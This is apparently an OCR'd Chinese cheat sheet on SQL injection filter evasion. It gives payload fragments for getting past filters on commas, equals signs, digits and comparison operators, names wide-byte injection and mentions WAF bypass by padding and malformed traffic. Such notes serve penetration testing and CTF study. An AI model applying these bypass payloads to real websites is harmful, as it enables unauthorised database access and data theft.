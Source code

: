 - 过滤逗号： select 1,2,3

    - 简单注入可以使用join方法绕过,union     select * from (select 1)a join (select 2)b join (select 3)

    - 对于盲注的那几个函数substr(),mid(),limit

    - substr和mid()可以使用from      for的方法解决

    - substr(str from pos      for len) //在str中从第pos位截取len长的字符
    - mid(str from pos      for len)//在str中从第pos位截取len长的字符
    - limit可以用offset的方法绕过:  limit 1 offset 1
    - 使用substring函数也可以绕过:  substring(str from pos)      //返回字符串str的第pos个字符，索引从1开始

- 过滤等号：

    ```
    可以用 like 模糊测试代替   
    where table_schema like database() 
    
    if(abs(strcmp((ascii(mid(user()from(1)for(2)))),114))-1,1,0)   
    regexp正则匹配
    find_in_set()
    ```

- 数字被过滤了：使用浮点数1.0 2.0

- `<、>`被过滤：


    - 利用函数代替
    
    - 如盲注时经常用到比较，这时候要是比较符号被注释了不能用平常的方法了，所以需要用某些函数如greatest()
    
        ```
        【greatest(n1,n2,n3,…)函数返回输入参数(n1,n2,n3,…)的最大值】、least()等，
        比如语句：select * from users where id=1 and ascii(substr(database(),0,1))>64 
        就可以替换成：select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
        ```
    
    - strcmp(str1,str2)     //当str1=str2，返回0，当str1>str2，返回1，当str1<str2，返回-1
    
    - in 操作符
    
    - between     n and m     //选取介于两个值之间的数据范围。这些值可以是数值、文本或者日期。

- **转义了各类符号：**
    - **宽字节注入：** 吃掉转义符号



## 绕过waf

>  https://xz.aliyun.com/t/7767
>
>  https://www.hacking8.com/sectips/bypasswaf.html

- 各种代理转发的waf都会先将发送的流量解析一遍，通过层层的判断最后发送到源服务器。bypass的思路很简单，就是找出waf是如何解析流量的，通过符合协议规范的“畸形”数据包让waf认为是正常流量达到bypass。一般来说http协议和根据网站的环境特点(不同类型的网站有不同的特点)来进行bypass。
- 垃圾数据填充
